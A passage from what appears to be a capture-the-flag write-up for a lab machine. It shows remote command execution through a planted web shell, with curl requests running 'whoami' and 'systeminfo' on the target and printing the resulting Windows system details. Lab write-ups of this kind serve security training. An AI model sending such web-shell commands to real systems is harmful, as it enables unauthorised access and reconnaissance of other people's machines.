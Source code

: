 ![](<../../.gitbook/assets/6 (1).JPG>)

### RCE using curl

We can als use "curl" to run these commands from our terminal:

```
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=whoami"      
nt authority\iusr
                                                                                                                 
└─$ curl -X GET "http://10.10.10.9/rce.php?cmd=systeminfo"

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46
System Boot Time:          9/12/2021, 10:36:19
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
```